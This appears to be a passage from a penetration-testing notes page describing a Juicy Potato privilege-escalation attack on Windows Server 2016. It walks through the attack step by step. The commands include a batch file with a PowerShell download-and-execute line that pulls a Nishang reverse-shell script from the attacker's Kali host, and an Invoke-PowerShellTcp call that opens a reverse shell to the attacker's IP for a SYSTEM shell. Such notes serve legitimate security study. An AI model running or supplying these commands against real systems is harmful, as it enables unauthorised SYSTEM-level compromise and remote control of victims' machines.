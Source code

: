 And We get "NT Authority"

### 14b - Juicy Potato

{% hint style="warning" %}
If the machine is < Windows 10 1809 < Windows Server 2019 — Try Juicy Potato

I did this attack on Windows Server 2016.
{% endhint %}

So we already have initial access to some low level/privileged service account that has "SeImpersonatePrivilege" access.

Lets do the Juicy Potato attack --> [https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

Nishang Powershell reverse shell --> [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

Download the ".exe" file and transfer to the victim C:\temp dir.

This will allow us to run executables as a SYSTEM level process. The main idea here is that:

* The JuicyPotato exploit runs a ".bat" file we will create as SYSTEM.
* The .bat file with SYSTEM privileges downloads our Nishang reverse shell hosted on our kali and executes it.
* We get a SYSTEM shell on our side by using a netcat listener.

#### Attack:

1. Create a "inv.bat" file with content:&#x20;

{% code title="inv.bat" overflow="wrap" lineNumbers="true" %}
```powershell
# it contains link to our local python http server on kali.
PowerShell IEX (New-Object Net.WebClient).downloadString('http://<kaliIP>:8000/Invoke-PowerShellTcp.ps1')
# so basically, running this .bat file should download the "Invoke-PowerShellTcp.ps1" file from the server.
```
{% endcode %}

2. Add this to at the end of the "Invoke-PowerShellTcp.ps1" script before hosting it.

{% code overflow="wrap" lineNumbers="true" %}
```bash
# we are calling the "Invoke-PowerShellTcp" function from the file directly.
# port 9002 is the port we are going to listen on to catch the new shell.
Invoke-PowerShellTcp -Reverse -IPAddress <kaliIP> -Port 9002
```
{% endcode %}

or you can use this one instead.

{% file src=".gitbook/assets/Invoke-PowerShellTcp.ps1" %}
or use this one instead.
{% endfile %}
